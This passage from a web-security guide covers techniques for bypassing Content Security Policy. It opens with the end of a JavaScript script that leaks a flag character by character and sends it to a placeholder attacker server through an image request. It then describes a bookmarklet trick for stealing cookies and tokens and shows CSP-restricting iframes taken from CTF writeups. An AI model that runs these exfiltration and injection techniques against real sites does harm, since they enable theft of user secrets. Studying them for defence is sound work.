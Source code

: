 ```html
          console.log("FOUND!")
          prefix += c
          break
        }
      }
      if (i == alphabet.length) {
        console.log("missing chars")
        break
      }
      let t = await query(prefix + "}", true)
      if (t) {
        prefix += "}"
        break
      }
    }
    new Image().src = "http://PLAYER_SERVER/?" + prefix //Exfiltrate the flag
    console.log(prefix)
  }

  run()
</script>
```

### Via Bookmarklets

This attack would imply some social engineering where the attacker **convinces the user to drag and drop a link over the bookmarklet of the browser**. This bookmarklet would contain **malicious javascript** code that when drag\&dropped or clicked would be executed in the context of the current web window, **bypassing CSP and allowing to steal sensitive information** such as cookies or tokens.

For more information [**check the original report here**](https://socradar.io/csp-bypass-unveiled-the-hidden-threat-of-bookmarklets/).

### CSP bypass by restricting CSP

In [**this CTF writeup**](https://github.com/google/google-ctf/tree/master/2023/web-biohazard/solution), CSP is bypassed by injecting inside an allowed iframe a more restrictive CSP that disallowed to load a specific JS file that, then, via **prototype pollution** or **dom clobbering** allowed to **abuse a different script to load an arbitrary script**.

You can **restrict a CSP of an Iframe** with the **`csp`** attribute:

```html
<iframe
  src="https://biohazard-web.2023.ctfcompetition.com/view/[bio_id]"
  csp="script-src https://biohazard-web.2023.ctfcompetition.com/static/closure-library/ https://biohazard-web.2023.ctfcompetition.com/static/sanitizer.js https://biohazard-web.2023.ctfcompetition.com/static/main.js 'unsafe-inline' 'unsafe-eval'"></iframe>
```

In [**this CTF writeup**](https://github.com/aszx87410/ctf-writeups/issues/48), it was possible via **HTML injection** to **restrict** more a **CSP** so a script preventing CSTI was disabled and therefore the **vulnerability became exploitable.**\
CSP can be made more restrictive using **HTML meta tags** and inline scripts can disabled **removing** the **entry** allowing their **nonce** and **enable specific inline script via sha**:
